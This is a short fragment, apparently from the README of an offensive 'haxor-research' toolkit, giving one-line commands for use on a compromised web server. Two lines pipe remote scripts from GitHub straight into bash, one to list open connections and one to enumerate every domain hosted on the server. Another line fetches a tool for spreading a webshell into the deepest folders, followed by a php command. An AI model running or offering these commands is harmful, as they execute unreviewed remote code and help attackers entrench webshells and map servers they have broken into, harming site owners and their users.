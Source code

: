 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/dor
```
```php
php ob.php
```
